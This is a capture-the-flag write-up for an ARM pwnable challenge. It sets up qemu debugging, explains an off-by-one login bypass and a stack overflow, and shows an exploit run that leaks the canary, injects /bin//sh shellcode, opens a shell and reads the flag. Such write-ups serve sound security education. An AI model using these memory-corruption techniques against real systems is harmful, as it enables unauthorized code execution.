 # arm-exploit
**Category:** Pwnable
**Points:** 856
**Solves:** 13
**Description:**
> Download in : [Link](https://drive.google.com/open?id=1aM2CTWFxKetOTMNfck71Bxv_ZGw05IzF)
> Service: nc armexploit.acebear.site 3001

## Writeup
```
$ file arm-exploit
arm-exploit: ELF 32-bit LSB executable, ARM, EABI5 version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.3, for GNU/Linux 3.2.0, BuildID[sha1]=cbaf26f5088911adc7a36ef8ac96660a33f617d1, not stripped
```

### Setup Environment
#### Install
```
sudo apt-get install qemu
sudo apt-get install qemu-user-static kpartx
sudo apt-get install gdb-multiarch
```

#### Run
```
$ qemu-arm-static ./arm-exploit 
**************************Welcome to Arm Exploit**************************
*                                                                        *
*************************Challenge Created By CNV*************************
*   Team: AceBear                                                        *
*   My blog: https://chung96vn.blogspot.com/                             *
**************************************************************************
*******************Arm Exploit******************
*                                              *
* 1 - info                                     *
* 2 - login                                    *
* 3 - echo                                     *
* 4 - change username                          *
* 5 - exit                                     *
************************************************
Your choice:
```

#### Debug over gdb-multiarch
Terminal 1
> qemu-arm-static -g 12345 ./arm-exploit

Terminal 2
```
$ gdb-multiarch
pwndbg> set architecture arm
The target architecture is assumed to be arm
pwndbg> target remote localhost:12345
Remote debugging using localhost:12345
0xf67d6a40 in ?? ()
...
 ► f 0 f67d6a40
pwndbg>
```

#### Run over python script
```python
import pwntools
r = process(["qemu-arm-static","-g","12345", "./arm-exploit"]) # run and debug
r = process(["qemu-arm-static","./arm-exploit"]) # Just run
```

### The Bug
Binary has some functions: genpass, info, login, echo, change username and exit.

First bug in **change_username** function:
* user input max 0x20 bytes into buf on stack
* strcpy(USER, buf) if 0x20 bytes buf not null then 0x20 bytes copy into USER and last null bytes will copy to USER+0x20 ==  isGuestLogin => isGuestLogin = 0 => bypass root login then we can use rootecho function.
```
.bss:0002209C USER            % 0x20                  ; DATA XREF: info+28↑o
.bss:000220BC isGuestLogin    % 4                     ; DATA XREF: info+48↑r
```

Second bug in **rootecho** function:
* buff in FP-0x88 but read 0x100 bytes => stack overflow.
```c
int rootecho()
{
  int result; // r0
  char s1; // [sp+4h] [bp-88h]
  _BYTE v2[3]; // [sp+9h] [bp-83h]
  int v3; // [sp+84h] [bp-8h]

  v3 = _bss_start;
  while ( 1 )
  {
    printf("root@arm-exploit:~$ ");
    secure_read(&s1, 0x100u); // <======= Bug Here
    result = strcmp(&s1, "exit");
    if ( !result )
      break;
    if ( !strcmp(&s1, "help") )
    {
      puts("List command:");
      puts("$ echo argument");
      puts("$ exit");
      puts("$ help");
    }
    else if ( !memcmp(&s1, "echo ", 5u) )
    {
      puts(v2);
    }
    else
    {
      puts("Invalid Command! Try help");
    }
  }
  return result;
}
```
### Exploit
[arm_exploit.py](/pwn/arm_exploit/arm_exploit.py)
```
$ python arm.py 3
[+] Opening connection to armexploit.acebear.site on port 3001: Done
[*] canary: 0xd4bae800
[*] stack: 0xf6fffb34
[*] buff: 0xf6fffab0
[*] Paused (press any to continue)
[*] Switching to interactive mode
 AAAAAAA0\x8f��/�xF\x0e0\x90I\x1a\x92\x1a'�Q\x037�/bin//sh
root@arm-exploit:~$ $ id
uid=1000(arm_exploit) gid=1000(arm_exploit) groups=1000(arm_exploit)
$ cat /ho*/*/flag
AceBear{arm_i5_my_sad_m3m0ry}$
```

